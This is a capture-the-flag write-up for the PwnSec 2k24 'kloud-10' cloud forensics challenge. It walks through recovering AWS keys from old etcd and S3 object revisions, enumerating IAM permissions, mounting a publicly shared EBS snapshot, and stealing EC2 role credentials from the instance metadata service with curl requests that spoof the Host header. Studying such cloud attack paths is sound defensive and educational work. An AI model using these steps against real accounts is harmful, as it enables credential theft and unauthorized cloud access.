
Click here to visit PwnSec 2k24


### Info;
  - Writers: CodeBreaker44 & chxmxii
  - Difficulty: Hard
  - Category: Forensics
  - Solvers: 0
  - Description: Be Wary Of Shortcuts To Knowledge
  - Skills required:
    1. Cloud 
    2. k8s
    3. helm chart
    4. aws pentesting


### Solution:

#### Part I: Getting the AWS creds from etcd;
You're handed a zip file called `kloud-10`. Unzip it and there's a file called `db`: an etcd backup. Reading it means having `etcdctl` installed locally.

Start with:

```shell
etcdctl get / --prefix
```

This dumps every key-value pair under the root path. The `--prefix` flag tells it to match anything starting with `/`, and what comes back is a pile of application config.



#### Part II: Enumerating the AWS account;
Scrolling through the dump turns up a key worth stopping on: `/cloud10/config/aws`.

It holds a bucket name and the region it lives in.

Further down the list, another AWS-related key shows up:
`/cloud10/secrets/aws-creds`

Read it directly and it's empty. Ask etcd for an older revision instead, and this comes back:



There they are: real AWS access keys. Time to configure them and see what they unlock:

```shell
aws configure
```


First move, always: check who we actually are.

```shell
aws sts get-caller-identity 
```



The identity comes back as `Freya`. Next question: what can Freya actually do?

Start with attached managed policies:

```shell
aws list-attached-user-policies --user-name Freya 
```


No permission to list attached managed policies. Dead end, but not the only door — AWS splits policies into two types: `inline` and `managed`.

More on the distinction here:
[Managed policies and inline policies](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

So: can Freya list inline policies instead?

```shell 
aws iam list-user-policies --user-name Freya 
```



She does: `FreyaBoundPolicy`. Let's pull it and see what's inside:

```shell
aws iam get-user-policy --user-name Freya --policy-name FreyaBoundPolicy | jq
```



Freya has access to two buckets:
1. vanaheim55 
2. midgard55

Start with `vanaheim55`:

```shell
aws s3 ls s3://vanaheim55
```


There's the flag. Grab it:

```shell
aws s3 cp s3://vanaheim55/flag.txt .
```





Check the policy again and there's the catch: Freya can list objects, not get them.

On to `midgard55`, then:

```shell
aws s3 ls s3://midgard55
```
#### Part III: Retrieving the second IAM creds from the helm chart;


The policy shows Freya can list *and* get objects in `midgard55`, plus list object versions — which means S3 versioning is on for this bucket. Worth digging through.

The file layout gives it away fast: this is a Helm chart.


**Helm chart?** Helm charts are a collection of files that describe a Kubernetes cluster's resources and package them together as an application


for more info check: 
helm.sh


Two ways to go from here:

1. Pull the whole chart and install it on a k8s cluster of our own
2. Go through the files by hand

For this writeup, option two.

Sync the whole bucket down:

```shell 
aws s3 sync s3://midgard55 .
```



Now the hunt for anything useful starts.

First, `Chart.yaml`:



Nothing worth stopping for.

Next, `values.yaml`.



Still nothing. Into the `templates` directory:



Then `NOTES.txt`:



There's a note about secrets an intern exposed. Since versioning is on, an earlier revision of this file might still have them — worth checking.

```shell
aws s3api list-object-versions --bucket midgard55
```



Sure enough, there's an older version of `NOTES.txt`. Pull it:

```shell
aws s3api get-object --bucket midgard55 --key 'templates/NOTES.txt' --version-id B8lWaRH7dB_ymDyICm_NAsBVO_qNpDfQ old_NOTES.txt
```



A handful of notes about the chart, but the second one matters: a snapshot ID. Hang onto that.

On to the rest of the files.

`VolumeSnapshotContent.yml`:

```yaml
apiVersion: snapshot.storage.k8s.io/v1
kind: VolumeSnapshotContent
metadata:
  name: {{ .Values.volumeSnapshotContentName }}
spec:
  volumeSnapshotRef:
    kind: VolumeSnapshot
    name: static-snapshot-demo
    namespace: default 
  source:
    snapshotHandle: {{ .Values.snapshotHandle }}
  driver: ebs.csi.aws.com
  deletionPolicy: Delete
  volumeSnapshotClassName: csi-aws-vsc
  ```

Nothing useful here either.

Next file:

`serviceaccount.yaml`:

```yaml
{{- if .Values.serviceAccount.create -}}
apiVersion: v1
kind: ServiceAccount
metadata:
  name: {{ include "yggdrasill.serviceAccountName" . }}
  labels:
    {{- include "yggdrasill.labels" . | nindent 4 }}
  {{- with .Values.serviceAccount.annotations }}
  annotations:
    {{- toYaml . | nindent 4 }}
  {{- end }}
automountServiceAccountToken: {{ .Values.serviceAccount.automount }}
{{- end }}
```

Nothing again. Then `_helpers.tpl`:

```yaml
{{/*
Expand the name of the chart.
*/}}
{{- define "yggdrasill.name" -}}
{{- default .Chart.Name .Values.nameOverride | trunc 63 | trimSuffix "-" }}
{{- end }}

{{/*
Create a default fully qualified app name.
We truncate at 63 chars because some Kubernetes name fields are limited to this (by the DNS naming spec).
If release name contains chart name it will be used as a full name.
*/}}
{{- define "yggdrasill.fullname" -}}
{{- if .Values.fullnameOverride }}
{{- .Values.fullnameOverride | trunc 63 | trimSuffix "-" }}
{{- else }}
{{- $name := default .Chart.Name .Values.nameOverride }}
{{- if contains $name .Release.Name }}
{{- .Release.Name | trunc 63 | trimSuffix "-" }}
{{- else }}
{{- printf "%s-%s" .Release.Name $name | trunc 63 | trimSuffix "-" }}
{{- end }}
{{- end }}
{{- end }}

{{/*
Create chart name and version as used by the chart label.
*/}}
{{- define "yggdrasill.chart" -}}
{{- printf "%s-%s" .Chart.Name .Chart.Version | replace "+" "_" | trunc 63 | trimSuffix "-" }}
{{- end }}

{{/*
Common labels
*/}}
{{- define "yggdrasill.labels" -}}
helm.sh/chart: {{ include "yggdrasill.chart" . }}
{{ include "yggdrasill.selectorLabels" . }}
{{- if .Chart.AppVersion }}
app.kubernetes.io/version: {{ .Chart.AppVersion | quote }}
{{- end }}
app.kubernetes.io/managed-by: {{ .Release.Service }}
{{- end }}

{{/*
Selector labels
*/}}
{{- define "yggdrasill.selectorLabels" -}}
app.kubernetes.io/name: {{ include "yggdrasill.name" . }}
app.kubernetes.io/instance: {{ .Release.Name }}
{{- end }}

{{/*
Create AWS Secret
*/}}
{{- define "yggdrasill.awsCredentials" -}}
AWS_ACCESS_KEY_ID: {{ "REDACTED" | quote }}
AWS_SECRET_ACCESS_KEY: {{ "REDCATED" | quote }}
{{- end }}

{{/*
Create the name of the service account to use
*/}}
{{- define "yggdrasill.serviceAccountName" -}}
{{- if .Values.serviceAccount.create }}
{{- default (include "yggdrasill.fullname" .) .Values.serviceAccount.name }}
{{- else }}
{{- default "default" .Values.serviceAccount.name }}
{{- end }}
{{- end }}
```

The AWS creds here are redacted, which means real keys existed in an earlier version. Same trick as before: pull an older revision.



```shell
aws s3api get-object --bucket midgard55 --key 'templates/_helpers.tpl' --version-id BQzEKSL7WvaPin7HeCD43AUUi2NHQx7. old_helpers.tpl
```



Bingo. Fresh AWS access keys. Configure them:

```shell
aws configure
```
#### Part IV: Enumerating the second AWS account;
Check who this new identity actually is:

```shell
aws sts get-caller-identity
```


This one's `Mimir`.

Same policy check as before:


```shell

aws iam list-attached-user-policies --user-name Mimir
aws iam list-user-policies --user-name Mimir
```

Both commands come back empty. Mimir doesn't have permission to list policies either.

Worth trying an enumeration tool at this point, like
[aws-enumerator](https://github.com/shabarkin/aws-enumerator?tab=readme-ov-file) 

That fails too. Nothing available.

That snapshot ID from earlier, though — let's check its attributes.

```shell
 aws ec2 describe-snapshot-attribute --attribute createVolumePermission --snapshot-id snap-019f040d**********
 ```

 

#### Part V: Creating a new EC2 instance based on the snapshot ID;
Quick recap of the plan here.

With a snapshot ID in hand, the first thing to check is whether it's public. The `createVolumePermission` attribute controls exactly that: whether other AWS accounts can create volumes from this snapshot. It comes back as `all`, meaning any AWS account can grab it. So: create a volume from the snapshot, attach it to a fresh EC2 instance, and see what's on disk.

Once the volume's attached, it's time to go looking for anything interesting. One file stands out immediately:
`/etc/systemd/system/aws-configure.service`

Contents:

```bash
[Unit]
Description=Service to Connect to Remote EC2 Instance via IP Address
After=network.target

[Service]
ExecStart=/tmp/connect_to_ec2.sh 52.6.102.237
ExecReload=/bin/kill -HUP $MAINPID
ExecStop=/bin/kill -WINCH $MAINPID
Restart=on-failure
User=Magni
WorkingDirectory=/home

[Install]
WantedBy=multi-user.target
```

A custom systemd service that connects out to a specific EC2 instance by IP.

Pinging that IP goes nowhere, but it's the only lead available. So instead, try pulling its instance metadata.

That means pointing requests at the metadata service address:
`169.254.169.254`

<blockquote >
  <h3>What is 169.254.169.254 address ?</h3>
  <p>
    These are dynamically configured link-local addresses. They are only valid on a single network segment and are not to be routed.
Of particular note, 169.254.169.254 is used in AWS, Azure, GCP and other cloud computing platforms to host instance metadata service.
  </p>
</blockquote>

#### Part VI: Getting the flag;

From here it's a straight run to the flag:

```shell
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

```shell
curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
```

```shell
​aws configure --profile Magni
```

```shell
​aws_session_token = <session-token>
```

```shell
​aws s3 ls --profile Magni
```
```shell
aws s3 cp s3://vanaheim55/flag.txt . --profile Magni
```

FLAG: PWNSEC{d347h_c4n_h4v3_m3_wh3n_17_34rn5_m3_68234}
